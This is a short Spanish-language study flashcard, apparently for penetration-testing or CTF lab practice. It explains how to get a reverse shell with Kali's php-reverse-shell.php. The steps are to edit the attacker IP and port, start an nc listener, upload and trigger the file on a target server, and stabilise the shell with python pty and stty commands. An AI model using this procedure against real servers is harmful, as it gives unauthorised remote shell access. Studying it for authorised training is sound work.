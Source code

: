 **Flashcard 2 – Uso de `php-reverse-shell.php` en Kali**

**Pregunta:** ¿Cómo usar `/usr/share/webshells/php/php-reverse-shell.php` para obtener una reverse shell?
**Respuesta:**

1. Copiar y editar:

   ```bash
   cd /usr/share/webshells/php/
   cp php-reverse-shell.php shell.php
   nano shell.php
   ```

   Cambiar `$ip` por la IP de `tun0` y `$port` por un puerto libre.
2. Listener:

   ```bash
   nc -lvnp <PUERTO>
   ```
3. Subir `shell.php` al servidor.
4. Ejecutar visitando su URL para iniciar la conexión inversa.
5. Estabilizar shell con `python3 -c 'import pty; pty.spawn("/bin/bash")'`, luego `export TERM=xterm`, `stty raw -echo; fg` y `reset`.
